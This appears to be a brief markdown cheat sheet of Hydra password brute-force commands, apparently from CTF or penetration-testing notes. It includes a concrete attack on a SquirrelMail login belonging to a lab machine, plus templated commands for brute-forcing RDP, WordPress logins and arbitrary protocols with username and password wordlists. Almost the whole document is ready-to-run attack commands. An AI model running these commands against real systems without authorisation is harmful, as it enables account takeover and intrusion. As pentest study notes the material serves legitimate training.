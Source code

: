 # Commands for Hydra

command used to login to a pop server
```
hydra -l milesdyson -P log1.txt 10.10.229.129 -V http-form-post '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.'
```
Brute force against a protocol of your choice
```
hydra -P <wordlist> -v <ip> <protocol>
```
You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts)
```
hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>``
```
Attack a Windows Remote Desktop with a password list.
```
hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>
```
Craft a more specific request for Hydra to brute force.
```
hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
